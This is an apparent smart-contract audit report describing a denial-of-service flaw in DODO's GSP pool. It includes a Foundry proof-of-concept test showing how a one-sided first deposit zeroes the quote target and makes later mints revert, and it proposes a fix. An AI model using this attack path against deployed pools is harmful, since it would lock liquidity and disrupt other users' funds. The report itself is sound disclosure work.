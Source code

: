 Flaky Sapphire Elk

high

# GSP pool can be permanently paused by gaming the initial liquidity action

## Summary
GSP pools with guide price `i <= 1e15` can be paused which reverts on next mint. So no new liquidity means no swap actions, making the pool useless

## Vulnerability Detail
- To make this DOS possible, the attacker should target pools with guide price <= 1e15 ( which is possible, since the there's a check [here](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSP.sol#L55) with possible range from 0 to 1e36).

- And after choosing the pool with `i <= 1e15`, see if `totalShares == 0` (first time mint or even when all liquidity is pulled Out).

- Due to this attack, the quote target will be zero, so it doesnt follow PMM anymore making  the pool unusable. So swaps and no mints, except for first LP provider burning his shares.

#### Check out the below poc for clear attack path

- Paste the below code into [test/GSPVault.t.sol](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/test/GSPVault.t.sol#L11) and run `forge t --mt testFirstLpAttack -vvvv`

```solidity
interface IGSP {
    function _QUOTE_TARGET_() external view returns (uint112);
    function buyShares(address to) external returns (uint256 shares, uint256 baseInput, uint256 quoteInput);
    function sync() external;
    function init(address maintainer,address baseTokenAddress,address quoteTokenAddress,uint256 lpFeeRate,uint256 mtFeeRate,uint256 i,uint256 k,bool isOpenTWAP) external;
}


contract GspTest is Test {
    IGSP  gsp;
    MockERC20  BASE_TOKEN;
    MockERC20  QUOTE_TOKEN;

    address constant MAINTAINER = address(0xdead);
    uint256 i = 1e18; // 1 USDC = 1 DAI

    

    function setUp() public {
        gsp = IGSP(address(new GSP()));
    }

    function testFirstLpAttack(uint quoteSecondLPamount, uint baseSecondLPamount) public {
        vm.assume(baseSecondLPamount > 1000 && baseSecondLPamount < 1000_000e6 * 2); // 1 M$
        vm.assume(quoteSecondLPamount > 1000 && quoteSecondLPamount < 1000_000e6 * 2); // 1 M$

        uint baseDecimals = 6; // TODO fuzz it
        uint quoteDecimals = 6;

        MockERC20 C = BASE_TOKEN;
        MockERC20 D = QUOTE_TOKEN;

        i = 1e6;
        uint k = 50000000000000;

        C = (new MockERC20("USDC", "USDC", uint8(baseDecimals)));
        D = (new MockERC20("DAI", "DAI", uint8(quoteDecimals)));
        C.mint(address(this), UINT256_MAX/2);
        D.mint(address(this), UINT256_MAX/2);

        // initialize
        gsp.init(MAINTAINER, address(C), address(D), 0, 0, i, k, true);

        // first LP mint
        C.transfer(address(gsp), 1001); 
        D.transfer(address(gsp), 0); 
        gsp.buyShares(address(this));
        assertEq(gsp._QUOTE_TARGET_(), 0); // 0 target

        // second Lp mint always fails
        C.transfer(address(gsp), baseSecondLPamount); 
        D.transfer(address(gsp), quoteSecondLPamount); 
        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gsp.buyShares(address(this));

        // trying to sync
        D.transfer(address(gsp), 1001); 
        gsp.sync();


        // third Lp mint also fails
        C.transfer(address(gsp), baseSecondLPamount); 
        D.transfer(address(gsp), quoteSecondLPamount); 
        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gsp.buyShares(address(this));
    }
}
```

## Impact
Pool can be permanently  paused by  causing Deniel of service.

## Code Snippet
- GSPFunding.buyShares() => https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56-L65

## Tool used

Manual Review, foundry testing

## Recommendation

Modify this [line](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L52) from `GSPFunding.buyShares()`

```diff
-       require(baseInput > 0, "NO_BASE_INPUT");
+       require(baseInput > 0 && quoteInput > 0, "NO_BASE+OR_QUOTE_INPUT");
```
